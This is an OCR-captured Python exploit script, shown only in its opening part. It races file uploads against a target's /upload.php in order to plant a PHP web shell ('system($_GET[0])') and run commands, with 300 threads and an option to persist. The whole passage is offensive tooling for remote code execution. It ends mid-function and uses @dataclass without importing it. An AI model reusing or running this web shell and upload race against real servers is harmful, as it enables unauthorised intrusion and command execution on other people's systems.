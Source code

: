 ```py
from typing import Optional, Tuple, List, Dict
import requests
import argparse
import base64
import random
import sys
import threading
import time
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed
from urllib.parse import quote
from functools import partial

WEB_SHELL = "<?php system($_GET[0]); ?>"

logger = logging.getLogger("ExploitRunner")
logging.basicConfig(level=logging.INFO, format="[%(levelname)s] %(message)s")

@dataclass
class Config:
    base: str
    upload: str = "/upload.php"
    tmp: str = "/tmp"
    cmd: str = "id"
    threads: int = 300
    upload_interval: float = 0.0
    field_name: str = "file"
    persist: bool = False
    timeout: float = 0.8
    php: str = WEB_SHELL
    pool_size: int = 1000
    show_response: bool = True 


class Exploit:
    def __init__(self, config: Config):
        self.config = config
        self.stop_evt = threading.Event()
        self.session = self._make_session(pool_size=config.pool_size, timeout=config.timeout)
        self.upload_thread: Optional[threading.Thread] = None
        self.base = config.base.rstrip("/")
        self.upload_url = f"{self.base}{config.upload}"
        self.tmp_path = config.tmp if config.tmp.startswith("/") else "/" + config.tmp

    def _make_session(self, pool_size: int = 1000, timeout: float = 1.0) -> requests.Session:
        s = requests.Session()
        adapter = requests.adapters.HTTPAdapter(
            pool_connections=pool_size, pool_maxsize=pool_size, max_retries=0
        )
        s.mount("http://", adapter)
        s.mount("https://", adapter)
        s.headers.update({"User-Agent": "yara-race-exploit/1.0"})
        s.request = partial(s.request, timeout=timeout)
        return s

    def start_upload_loop(self) -> None:
        if self.upload_thread and self.upload_thread.is_alive():
            logger.debug("Upload thread already running")
            return
        self.upload_thread = threading.Thread(
            target=self._upload_loop,
            args=(self.session, self.upload_url, self.config.php, self.config.upload_interval, self.stop_evt, self.config.field_name),
```